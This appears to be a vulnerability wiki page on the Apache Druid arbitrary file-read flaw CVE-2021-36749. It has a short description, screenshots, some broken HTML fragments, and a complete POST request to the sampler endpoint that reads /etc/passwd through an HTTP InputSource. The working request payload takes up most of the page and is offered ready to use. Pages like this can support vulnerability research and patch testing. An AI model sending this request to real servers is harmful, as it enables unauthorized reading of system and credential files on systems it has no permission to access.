 ```yaml
---
title: Apache Druid LoadData Arbitrary file reading vulnerability CVE-2021-36749
---
```


# Apache Druid LoadData Arbitrary file reading vulnerability CVE-2021-36749

## Vulnerability Description

Since there is no limit on the user specifying HTTP InputSource, application-level restrictions can be bypassed by passing the file URL to HTTP InputSource. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Druid</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://github.com/">title="Apache Druid"</a-button>
</a-checkbox>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635581825740-fb87d406-6cf5-4c7f-b757-66e83d957346.png)

Reproduction process

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635581875371-557354af-d294-49ab-9483-79180aadfe65.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635581900223-41408c4c-3b5c-4b66-b726-532835d0254d.png)

The request package is

```php
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1635582099772-ea2fb699-82d9-4df1-aea9-9ed1f9068ae3.png)